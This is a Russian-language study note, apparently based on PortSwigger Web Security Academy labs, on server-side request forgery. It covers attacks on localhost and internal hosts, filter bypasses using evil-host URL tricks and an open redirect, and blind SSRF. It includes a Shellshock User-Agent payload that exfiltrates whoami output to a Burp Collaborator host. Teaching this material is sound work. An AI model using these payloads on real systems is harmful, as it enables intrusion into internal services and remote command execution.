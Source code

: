 [Server-side request forgery](https://portswigger.net/web-security/ssrf)

[SSRF Cheat Sheet & Bypass Techniques](https://highon.coffee/blog/ssrf-cheat-sheet)

# Распространенные атаки SSRF
### SSRF против самого сервера
При атаке SSRF на сам сервер злоумышленник заставляет приложение сделать HTTP-запрос обратно на сервер, на котором размещено приложение, через его loopback сетевой интерфейс. Обычно это включает в себя предоставление URL с именем хоста, например `127.0.0.1` или `localhost`.

Запрос к API для проверки наличия товара на складе:

```http
POST /product/stock HTTP/1.0 Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://stock.weliketoshop.net:8080/product/stock/check%3FproductId%3D6%26storeId%3D1
```

В этой ситуации злоумышленник может изменить запрос, чтобы указать URL, локальный для самого сервера:

```http
POST /product/stock HTTP/1.0 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 118 
stockApi=http://localhost/admin
```

### SSRF на другие внутренние системы

```http
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118
stockApi=http://192.168.0.68/admin
```

# Обход распространенных способов защиты от SSRF
### SSRF с входными фильтрами на основе черных списков
Обход фильтра:
- альтернативные IP-представления `127.0.0.1`, например `2130706433`, `017700000001` или `127.1`
- регистрация собственного доменного имени, которое разрешается в `127.0.0.1`. Для этой цели можно использовать `spoofed.burpcollaborator.net`
- Обфускация заблокированных строк с помощью кодировки URL или изменения регистра

### SSRF с входными фильтрами на основе белых списков
Спецификация URL содержит ряд особенностей, которые могут быть упущены при реализации специального разбора и проверки URL:
- учетные данные в URL перед именем хоста, используя символ `@`:

	`https://expected-host@evil-host`

- символ `#` для обозначения фрагмента URL:

	`https://evil-host#expected-host`

- использовать иерархию именования DNS для размещения требуемого ввода в полностью определенном подконтрольном DNS-имени:

	`https://expected-host.evil-host`

- URL-кодировать символы, чтобы запутать код разбора URL. Это особенно полезно, если код, реализующий фильтр, обрабатывает кодированные символы URL иначе, чем код, выполняющий внутренний HTTP-запрос
- использовать комбинации этих методов вместе

### Обход фильтров SSRF через открытое перенаправление
Есть функционал перехода на следующую страницу, которая содержит уязвимость `open redirection`, при которой URL:

```http
GET /product/nextProduct?currentProductId=1&path=http://192.168.0.12:8080
```

возвращает перенаправление на:

```
http://192.168.0.12:8080
```

Используем уязвимость для обхода фильтра URL и выполняем SSRF:

```http
POST /product/stock HTTP/1.1
Host: ac951fab1ffef84ac0f0709400cb00a1.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 88

stockApi=/product/nextProduct?path=http://192.168.0.12:8080/admin
```

Этот SSRF-эксплойт работает потому что приложение сначала проверяет, что предоставленный URL `stockAPI` находится в разрешенном домене, что и происходит. Затем приложение запрашивает предоставленный URL, что вызывает открытое перенаправление. Оно следует перенаправлению и делает запрос на внутренний URL по выбору злоумышленника.

# Слепые SSRF ^91df93

Например, на сайте используется аналитическое программное обеспечение, которое получает URL, указанный в заголовке `Referer`, когда загружается страница продукта:

```http
GET /product?productId=19 HTTP/1.1
Host: ac7a1ffc1e47dae5c097263d00ee00b7.web-security-academy.net
Referer: https://ac7a1ffc1e47dae5c097263d00ee00b7.web-security-academy.net/
```

Вызов запроса к серверу Burp Collaborator:

```http
GET /product?productId=19 HTTP/1.1
Host: ac7a1ffc1e47dae5c097263d00ee00b7.web-security-academy.net
Referer: http://2wznfi7jzcg9hkmhurnhykpjfal69v.burpcollaborator.net
```

**Blind SSRF + shellshock**
Shellshock payload: 

```
() { :;}; echo "pwned"
```

Пример запроса:

```http
GET /product?productId=1 HTTP/1.1
Host: ac901f3e1ea49cd3c054f7d2005b00d1.web-security-academy.net
User-Agent: () { :;}; /usr/bin/nslookup $(whoami).6fmtccqu58psg7aj77qad8m9j0psdh.burpcollaborator.net
Referer: http://192.168.0.§1§:8080
```

# Поиск скрытой поверхности атаки для уязвимостей SSRF
### Частичные URL-адреса в запросах
Иногда приложение помещает в параметры запроса `только имя хоста или часть пути URL`. Затем переданное значение включается на стороне сервера в полный URL, который запрашивается. Если значение легко распознается как имя хоста или путь URL, то потенциальная поверхность атаки может быть очевидной. Однако возможности использования SSRF могут быть ограничены, поскольку вы не контролируете весь URL, который запрашивается.

### URL в форматах данных
Некоторые приложения передают данные в форматах, спецификация которых позволяет включать URL, которые могут быть запрошены анализатором данных для данного формата. Очевидным примером этого является формат данных `XML`, который широко используется в веб-приложениях для передачи структурированных данных от клиента к серверу. Когда приложение принимает данные в формате `XML` и анализирует их, оно может быть уязвимо для `XXE-инъекции` и, в свою очередь, уязвимо для SSRF через `XXE`.

### SSRF через заголовок Referer
Некоторые приложения используют аналитическое программное обеспечение на стороне сервера, которое отслеживает посетителей. Такое ПО часто регистрирует заголовок `Referer` в запросах, поскольку он представляет особый интерес для отслеживания входящих ссылок. Часто аналитическое программное обеспечение фактически посещает любой сторонний URL, который появляется в заголовке `Referer`. Обычно это делается для анализа содержимого ссылающихся сайтов, включая якорный текст, который используется во входящих ссылках. В результате, заголовок `Referer` часто представляет собой плодотворную поверхность для атаки уязвимостей SSRF (см. [[ssrf#^91df93|Слепые SSRF]]).
